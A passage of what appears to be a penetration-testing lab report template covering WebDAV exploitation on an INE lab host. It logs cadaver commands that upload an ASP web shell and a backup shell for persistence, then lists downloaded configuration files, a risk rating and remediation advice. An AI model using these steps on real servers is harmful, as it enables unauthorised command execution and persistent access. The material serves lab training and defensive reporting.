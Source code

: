 #### Phase 3: Web Shell Deployment
```bash
put /usr/share/webshells/asp/cmd.asp
# Upload Status: SUCCESS (1400 bytes)
# File Location: http://[target]/webdav/cmd.asp
```

### Verification Results:
- **Web Shell Access:** ✅ SUCCESSFUL
- **Command Execution:** ✅ FUNCTIONAL
- **System Information Retrieved:** [details]

### Files Uploaded:
| Filename | Size | Type | Purpose | Status |
|----------|------|------|---------|--------|
| cmd.asp | 1400 bytes | Web Shell | Command execution | Active |
| backup.asp | 1362 bytes | Backup Shell | Persistence | Standby |

### Files Downloaded:
| Filename | Size | Content Type | Intelligence Value |
|----------|------|--------------|-------------------|
| web.config | 168 bytes | XML Config | Server configuration |
| logs.txt | 2.1 KB | Text | Application logs |

### Risk Assessment:
- **Severity:** CRITICAL
- **Impact:** Full system command execution
- **Exploitability:** HIGH (weak credentials)

### Recommendations:
1. **Immediate:** Disable WebDAV if not required for business operations
2. **Authentication:** Implement strong credential policies and multi-factor authentication
3. **File Filtering:** Restrict executable file uploads with proper validation
4. **Monitoring:** Implement comprehensive WebDAV access logging and alerting
```

### **🔧 Technical Commands Log Template:**

```markdown
## Cadaver Session Log

**Session Start:** [timestamp]
**Target:** [webdav_url]
**Duration:** [session_length]

### Command History:
```bash
[09:42:15] cadaver http://demo.ine.local/webdav
[09:42:18] Authentication successful for user: bob
[09:42:20] ls
[09:42:22] Directory listing: 3 items found
[09:42:25] put /usr/share/webshells/asp/cmd.asp
[09:42:28] Upload completed: 1400 bytes transferred
[09:42:30] ls
[09:42:32] Verification: cmd.asp present in directory
[09:42:35] quit
[09:42:36] Session terminated
```
